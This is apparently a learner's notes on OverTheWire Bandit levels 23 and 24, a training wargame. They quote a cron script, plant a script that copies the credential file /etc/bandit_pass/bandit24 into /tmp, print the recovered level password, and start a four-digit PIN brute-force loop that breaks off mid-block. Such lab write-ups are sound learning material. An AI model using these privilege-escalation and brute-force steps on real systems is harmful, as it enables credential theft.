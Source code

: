 # Bandit 23
 
- this is another cron script. Here's what it says:  
  ```
  #!/bin/bash
  myname=$(whoami)
  cd /var/spool/$myname
  echo "Executing and deleting all scripts in /var/spool/$myname:"
  for i in *.*;
  do
      if [ "$i" != "." -a "$i" != ".." ];
      then
          echo "Handling $i"
          owner="$(stat --format "%U" ./$i)"
          if [ "${owner}" = "bandit23" ]; then
              timeout -s 9 60 ./$i
          fi
          rm -f ./$i
      fi
  done
  ```
- Basically, it checks in the /var/spool/bandit24 directory for files owned by bandit23.  
- It runs and deletes them after a minute (timeout -s 9 60 ./$1)  
  - the part about the files named "." and ".." are for those files, which are hidden and exist in every Linux directory.  
  - the script skips over them so it doesn't remove them  
- I cd'd into /var/spool/bandit24 and made a really simple test script  
  ```   
  #!/bin/bash
   echo it works
  ```
- I had to change permissions (chmod 777) but it worked, so I made a better script  
  ```
   #!/bin/bash
   cat /etc/bandit_pass/bandit24 > /tmp/test/pass.txt
   ```
- I had trouble, but then I remembered I needed to allow write access to pass.txt  
  - chmod 666 pass.txt (if you have trouble understanding my chmod commands, read my security+ notes)  
- after the longest minute ever, it worked:  
  `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`  
 
# Bandit 24
 
- There is a listening daemon on 30002, and it will give me the password if i send it the bandit24 password and a 4-digit code.  
- there isn't a hint for the code, I have to write a bruteforcing script.  
- i knew I would need a for loop to set up my pincode, but I wasn't sure how to implement it  
- I found this helpful [tutorial](https://ryanstutorials.net/bash-scripting-tutorial/bash-loops.php)  
- Here is my script:  
  ```  
  #!/bin/bash
  for i in {0000..9999}
   do
       echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i
   done
  ```
- This verison just outputs the bruteforce and the password, to pass the output to the port I used the `>>` operand to append it to a file.  
  ```  
  #!/bin/bash
   for i in {0000..9999}
      do
  ```